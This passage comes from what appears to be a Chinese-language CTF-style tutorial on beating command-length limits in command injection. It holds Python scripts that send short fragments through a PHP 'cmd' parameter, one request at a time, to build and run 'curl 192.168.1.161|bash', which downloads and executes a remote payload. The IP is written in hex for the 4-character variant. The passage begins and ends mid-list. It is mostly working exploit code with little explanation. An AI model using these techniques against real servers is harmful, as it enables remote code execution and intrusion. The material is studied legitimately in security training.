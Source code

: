 ```python
    ">\/\\",
    ">61\\",
    ">1\\",
    ">1.\\",
    ">8.\\",
    ">16\\",
    ">2.\\",
    ">19\\",
    ">\ \\",
    ">rl\\",
    ">cu\\"
]
for i in list:
    time.sleep(1)
    url = baseurl+str(i)
    s.get(url)

for j in list2:
    time.sleep(1)
    url = baseurl+str(j)
    s.get(url)

s.get(baseurl+"sh _")
s.get(baseurl+"sh y")
```



#### 长度限制为4的绕过方式

新的问题：追加命令长度至少为5`ls>>_`

将ip地址变成16进制

python代码示例：

```python
#encoding:utf-8
import time
import requests
baseurl = "http://192.168.1.6:19080/class09/4/ffff.php?cmd="
s = requests.session()

# 将ls -t 写入文件g
list=[
    ">g\;",
    ">g\>",
    ">ht-",
    ">sl",
    ">dir",
    "*>v",
    ">rev",
    "*v>x"
]

# curl 192.168.1.161|bash
list2= [
    ">ash",
    ">b\\",
    '>\|\\',
    '>A1\\',
    '>01\\',
    '>A8\\',
    '>C0\\',
    '>0x\\',
    '>\ \\',
```